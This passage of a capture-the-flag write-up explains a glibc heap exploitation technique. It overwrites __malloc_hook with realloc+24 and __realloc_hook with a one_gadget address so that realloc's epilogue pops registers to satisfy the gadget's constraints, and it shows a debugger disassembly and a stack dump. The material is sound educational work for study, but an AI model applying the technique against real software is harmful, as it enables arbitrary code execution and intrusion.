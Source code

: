 ![one_gadget.png](/static/images/mocsctf-2022/one_gadget.png)

We will use the first one, which has constraints is r15 and r12 is null. Because if we changed `__malloc_hook` once, it can hardly be recovered to malloc() again. So this is a one hit one kill situation.

The idea is to overwrite `__malloc_hook` with realloc() and overwrite `__realloc_hook` with one gadget. The aim is to `pop` null byte to r15 and r12. At the epilouge of realloc(), there is `pop r12` and `pop r15`. So that’s why we will jump to realloc first. This is the assembly code of realloc:

```
gef➤  disas realloc
Dump of assembler code for function __GI___libc_realloc:
   0x00007f5c371c8000 <+0>:   endbr64
   0x00007f5c371c8004 <+4>:   push   r15
   0x00007f5c371c8006 <+6>:   push   r14
   0x00007f5c371c8008 <+8>:   push   r13
   0x00007f5c371c800a <+10>:  push   r12
   0x00007f5c371c800c <+12>:  mov    r12,rsi
   0x00007f5c371c800f <+15>:  push   rbp
   0x00007f5c371c8010 <+16>:  mov    rbp,rdi
   0x00007f5c371c8013 <+19>:  push   rbx
   0x00007f5c371c8014 <+20>:  sub    rsp,0x18
   0x00007f5c371c8018 <+24>:  mov    rax,QWORD PTR [rip+0x14cfc1]        # 0x7f5c37314fe0
   0x00007f5c371c801f <+31>:  mov    rax,QWORD PTR [rax]

   0x00007f5c371c8022 <+34>:  test   rax,rax                             # Check if __realloc_hook is null or not
   0x00007f5c371c8025 <+37>:  jne    0x7f5c371c8260 <__GI___libc_realloc+608>

   ...

   0x00007f5c371c8260 <+608>: mov    rdx,QWORD PTR [rsp+0x48]
   0x00007f5c371c8265 <+613>: add    rsp,0x18
   0x00007f5c371c8269 <+617>: pop    rbx
   0x00007f5c371c826a <+618>: pop    rbp
   0x00007f5c371c826b <+619>: pop    r12
   0x00007f5c371c826d <+621>: pop    r13
   0x00007f5c371c826f <+623>: pop    r14
   0x00007f5c371c8271 <+625>: pop    r15
   0x00007f5c371c8273 <+627>: jmp    rax

```

So in our case that `__realloc_hook` is not null (we will overwrite with one gadget), it then `pop` and execute the function inside `__realloc_hook`. So if we overwrite `__malloc_hook` with `realloc + 24` (address is `0x00007f5c371c8018`), which means we don't push any register, but we can pop all 6 value on stack in to rbx, rbp, r12, r13, r14, r15, and also the stack didn't change, we can control it more easily. And here is the status of stack:

```
0x00007ffec709f4d0│+0x0000: "D=malloc(4096)\n"   ← $rax, $rsp, $rdi
0x00007ffec709f4d8│+0x0008: "(4096)\n"
0x00007ffec709f4e0│+0x0010: 0x0000557c12fa02a0  →  0x0000000000000000
0x00007ffec709f4e8│+0x0018: 0x0000557c12fc2020  →  0x0000000000000000
0x00007ffec709f4f0│+0x0020: 0x0000557c12fe4020  →  0x0000000000000000
0x00007ffec709f4f8│+0x0028: 0x0000557c13005010  →  0x0000000000000000
0x00007ffec709f500│+0x0030: 0x0000000000000000
0x00007ffec709f508│+0x0038: 0x0000000000000000
```
